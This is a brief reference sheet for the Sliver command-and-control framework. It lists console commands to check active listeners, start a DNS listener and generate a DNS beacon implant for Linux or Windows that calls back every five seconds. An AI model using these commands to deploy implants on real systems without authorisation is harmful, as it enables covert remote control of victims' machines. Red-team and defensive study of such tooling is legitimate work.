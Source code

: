 # Sliver C2

## Objective

Provide a reference document for using Sliver.

## Config

### Check the active listeners

```bash
[server] sliver > jobs
```

### Start a DNS listeners

```bash
[server] sliver > dns --domain FQDN.
```

### Generate DNS beacon

```bash
[server] sliver > generate beacon --dns FQDN --os [linux,windows] --jitter 0 --seconds 5 --save /tmp/dns_c2
```

